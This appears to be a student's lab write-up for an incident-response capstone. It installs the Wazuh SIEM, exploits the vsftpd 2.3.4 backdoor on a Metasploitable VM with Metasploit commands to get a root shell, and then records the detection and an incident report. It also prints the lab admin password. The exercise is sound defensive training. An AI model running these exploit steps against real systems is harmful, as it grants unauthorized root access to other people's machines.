


# Task 8

# 8. Capstone Project: Full Incident Response Cycle

### Installing Wazuh

```bash
curl -sO https://packages.wazuh.com/4.12/wazuh-install.sh && sudo bash ./wazuh-install.sh -a
```




After installation complete, we have got the credential.

```bash
User: admin
Password: P?Lo6gaJw.68yJeblE8NATfFM2JfH2AJ
```

We can able to access the Wazuh with our IP `http://192.168.16.131`


- Deploy an agent and setup is complete.

### Exploiting vsftpd vulnerability in metasploitable.

After starting metasploit, search for **vsftpd**


Use the exploit and the run command **show options**  to set the required parameters.

```jsx
use exploit/unix/ftp/vsftpd_234_backdoor

show options
```


Set the target IP and **run**  the exploit.

```jsx
set RHOSTS 192.68.16.130
run
```

Exploit was successfull and we have gained a shel on the target.



**Detection:**

| Timestamp | Source IP | Alert Description | MITRE Technique |
| --- | --- | --- | --- |
| 18-08-2025 11:00 | 192.168.16.130 | VSFTPD exploit | T1190 |

## **Incident Report: Unauthorized Access via VSFTPD Exploit**

**Date:** August 18, 2025

**Report ID:** Incident-001

**1. Executive Summary:**

On August 18, 2025, at approximately 11:00 UTC, our Security Information and Event Management (SIEM) system, Wazuh, detected a successful exploitation attempt against the vsFTPd service on one of our internal servers (host: metasploitable2, IP: 192.168.16.130). The attacker (IP: 192.168.16.129) gained a remote root shell by exploiting a known backdoor vulnerability (CVE-2011-2523) in the outdated vsFTPd 2.3.4 service. The incident was automatically contained within minutes by blocking the source IP.

**2. Findings & Analysis:**

The target system was running a vulnerable version of vsFTPd, which contains a documented backdoor command that allows remote code execution. The attacker used the Metasploit framework to trigger this backdoor. This technique is mapped to MITRE ATT&CK technique **T1190 - Exploit Public-Facing Application**. The root cause was the presence of an obsolete and highly vulnerable service on the network.

**3. Actions Taken:**

1. **Detection:** Wazuh generated a real-time alert, triggering the incident response process.
2. **Eradication & Recovery:** The vulnerable vsFTPd service was permanently disabled and uninstalled from the affected server. The system was scanned for any indicators of
compromise (IOCs); none were found beyond the initial shell access.

**4. Recommendations:**

- **Patch Management:** Implement a strict policy to identify and update or remove end-of-life software and known vulnerable services.
- **Network Segmentation:** Place development and testing systems like Metasploitable2 on an isolated network segment with no inbound internet access.
- **Proactive Hardening:** Regularly review and harden system configurations against common security benchmarks (e.g., CIS Benchmarks).